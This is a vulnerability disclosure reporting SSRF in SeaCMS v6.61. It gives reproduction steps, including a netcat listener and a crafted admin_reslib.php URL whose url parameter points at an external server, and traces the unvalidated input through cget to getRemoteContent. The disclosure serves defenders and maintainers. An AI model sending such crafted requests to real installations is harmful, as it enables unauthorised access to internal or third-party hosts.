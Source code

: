 ### SSRF exists in the latest version of SeaCMS(v6.61)
1. Download the source code locally on the official website http://www.seacms.net. The environment is php+mysql environment.
2. My local installation path is seacms, so go to http://127.0.0.1/seacms/install/index.php to install.
3. After the installation is complete, modify the background path to adm1n and enter the background http://127.0.0.1/seacms/adm1n.
4. Use the nc -lvp 8888 to listen on the 8888 port on the remote server.

![image](5.png)

5. Visit the link: http://127.0.0.1/seacms/adm1n/admin_reslib.php?action=day&rid=ataoju.com&pg=31&url=http://{server}:8888&backurl=admin_reslib.php. {server} is the server IP address.
6. Receive a request on the server
![image](6.png)


#### Code audit process:
The vulnerability appears in admin_reslib.php. Construct $action=="day" and $rid! ==32 to enter the logic of line 333, here the input url is spliced: $weburl=$var_url.(strpos($var_url,'?')!==false?"&":"?") ."ac=videolist&rid=".$ressite."&t=0&h=24&pg=".$page;
![image](7.png)

Then go to the intoDatabase function, the intoDatabase function uses the cget function in /include/common.func.php to request the url.

![image](8.png)

Continue to follow up, $isref defaults to 1, so the getRemoteContent function is called.
![image](9.png)

Looking at the getRemoteContent function, you can see that the function initiates a request directly to the incoming url using curl or file_get _contents.

![image](10.png)

In summary, the code does not validate the incoming url parameter and can initiate a request for any address.